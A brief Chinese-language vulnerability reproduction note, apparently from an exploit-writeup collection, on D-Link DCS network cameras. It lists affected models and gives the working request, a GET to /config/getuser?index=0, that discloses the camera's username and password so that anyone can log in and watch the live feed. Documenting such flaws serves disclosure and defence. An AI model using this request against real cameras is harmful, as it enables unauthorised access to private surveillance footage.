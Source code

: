 # 0x00 软件介绍
D-Link DCS系列：D-Link是一家台湾科技公司，中文名：友讯科技，其旗下的DCS系列是畅销的网络摄像机

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
CS-2530L  
DCS-2670L  
DCS-4603  
DCS-4622  
等多个DCS系列系统

# 0x04 漏洞复现
访问http://xxx.xxx.xxx.xxx/config/getuser?index=0会泄露账号和密码

使用账号密码登陆后即可查看摄像头的监控画面
![image](./pic/0.png)

# 0x05 批量脚本
无

# 0x06 参考链接
https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg
